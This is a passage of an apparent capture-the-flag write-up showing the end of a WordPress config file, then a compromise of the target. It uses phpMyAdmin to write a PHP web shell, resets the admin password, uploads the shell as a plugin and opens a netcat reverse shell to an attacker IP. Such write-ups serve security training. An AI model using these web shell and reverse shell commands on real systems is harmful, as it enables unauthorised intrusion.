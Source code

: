 ```
 */
$table_prefix  = 'wp_';

/**
 * For developers: WordPress debugging mode.
 *
 * Change this to true to enable the display of notices during development.
 * It is strongly recommended that plugin and theme developers use WP_DEBUG
 * in their development environments.
 */
define('WP_DEBUG', false);

/* That's all, stop editing! Happy blogging. */

/** Absolute path to the WordPress directory. */
if ( !defined('ABSPATH') )
        define('ABSPATH', dirname(__FILE__) . '/');

/** Sets up WordPress vars and included files. */
require_once(ABSPATH . 'wp-settings.php');

define('WP_HTTP_BLOCK_EXTERNAL', true);
```

## MySQL and admin wordpress

I could use the above to log into phpmyadmin, discovered when I did a dirb before.

In phpmyadmin I could use the SQL command window to upload a php shell to /tmp: `SELECT "<?php system($_GET['cmd']); ?>" into outfile "/tmp/cmd.php"`, which I then checked via the smbclient from before to confirm that yes, /tmp is being shared. Given I could have also uploaded the shell over smb this didn't give me much however.

I went to the wordpress database and the wp_users table and found the admin user, John. Via the phpmyadmin interface I was able to reset John's password to `hacktheplanet` encoded with MD5 (all done through the interface). This allowed me to then log in to wordpress through wp-admin.

As the admin I poked around, and at the suggestion of a hacker friend of mine used the interface to 'add a new plugin'. The plugin process wouldn't work without FTP credentials, however anything I selected as a plugin would get uploaded to `wp-content/uploads`. I uploaded a cmd.php file (containing just `<?php system($_GET['cmd']); ?>` as above) and sure enough, `:12380/blogblog/wp-content/uploads/cmd.php?cmd=whoami` gave me that magic `www-data` in the window.

## Reverse netcat, upgraded client

I used cmd.php to open reverse netcat, giving me a shell on the client from my kali machine. With `python -c 'import pty; pty.spawn("/bin/bash")'` I got something more usable.

> Note, the first reverse shell + python upgrade resulted in a weird terminal that doubled all letters (just on display, the commands still worked). I fixed it just by opening another nc: `nncc..ttrraaddiittiioonnaall  119922..116688..11..7766  66666666  --ee  //bbiinn//bbaasshh
` :D
